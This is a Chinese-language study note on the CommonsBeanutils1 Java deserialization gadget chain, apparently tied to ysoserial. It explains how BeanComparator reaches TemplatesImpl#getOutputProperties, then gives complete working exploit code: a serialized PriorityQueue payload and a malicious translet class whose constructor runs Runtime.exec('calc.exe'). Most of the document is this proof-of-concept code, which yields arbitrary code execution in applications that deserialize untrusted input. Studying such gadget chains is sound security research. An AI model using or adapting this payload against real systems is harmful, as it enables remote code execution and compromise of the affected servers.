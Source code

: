# CommonsBeanutils1笔记

主要是有个比较好玩的地方

![](img/1.png)

在TemplatesImpl的getOutputProperties方法里面也调用了newTransformer，由此衍生出了CB的利用链

这里还是会用到PriorityQueue，但是和CC2一个很大区别在于CB1用的是BeanComparator而不是TransformingComparator，我们看看，如果this.property不为null，则将会自动调用getter方法，从而通过TemplatesImpl#getOutputProperties() 方法，触发代码执行，如下图所示![](img/2.png)

![](img/3.png)

因此尝试构造下paylaod，除此以外在执行到internalCompare一定会报错，因此我们在构造payload的时候也一定要小心，并且一定要保证`this.property == null`

同时发现这里que是个Object数组

![](img/4.png)

因此不难构造

## payload

```Java
package ysoserial.mytest;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object
        value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
            ClassPool.getDefault().get(test.class.getName()).toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue(2, comparator);

        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new
            ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();

    }
}
```

test类

```Java
package ysoserial.mytest;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

